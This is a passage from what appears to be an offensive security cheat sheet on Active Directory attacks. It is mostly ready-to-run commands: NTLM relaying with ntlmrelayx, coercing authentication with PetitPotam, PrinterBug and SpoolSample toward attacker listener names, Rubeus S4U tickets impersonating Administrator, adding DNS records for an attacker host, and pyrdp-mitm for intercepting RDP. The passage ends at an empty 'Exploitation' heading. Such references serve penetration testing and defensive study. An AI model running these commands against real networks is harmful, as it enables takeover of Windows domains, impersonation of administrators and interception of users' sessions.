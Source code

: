     ```ps1
    python3 ntlmrelayx.py -t ldaps://dc --delegate-access -smb2support
    ```

* Trigger the authentication to relay to our nltmrelayx: `PetitPotam.exe WIN-UBNW4FI3AP0@80/test.txt 10.10.10.10`, the listener host must be specified with the FQDN or full netbios name like `logger.domain.local@80/test.txt`. Specifying the IP results in anonymous auth instead of System.

  ```ps1
  # PrinterBug
  dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  SpoolSample.exe "TARGET_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

  # PetitPotam
  Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  ```

* Use the created account to ask for a service ticket:

    ```ps1
    .\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'
    .\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F /impersonateuser:Administrator /msdsspn:host/pc1.purple.lab /altservice:cifs /nowrap /ptt
    ls \\PC1.purple.lab\c$
    # IP of PC1: 10.0.0.4
    ```

An alternative for the previous exploitation method is to register a **DNS entry** for the attack machine by yourself then trigger the coercion.

```ps1
python3 /opt/krbrelayx/dnstool.py -u lab.lan\\jdoe -p 'P@ssw0rd' -r attacker.lab.lan -a add -d 192.168.1.50 192.168.1.2
python3 /opt/PetitPotam.py -u jdoe -p 'P@ssw0rd' -d lab.lan attacker@80/test 192.168.1.3
```

## Man-in-the-middle RDP connections with pyrdp-mitm

* <https://github.com/GoSecure/pyrdp>
* <https://www.gosecure.net/blog/2018/12/19/rdp-man-in-the-middle-smile-youre-on-camera/>

**Usage**

```sh
pyrdp-mitm.py <IP>
pyrdp-mitp.py <IP>:<PORT> # with custom port
pyrdp-mitm.py <IP> -k private_key.pem -c certificate.pem # with custom key and certificate
```

**Exploitation**
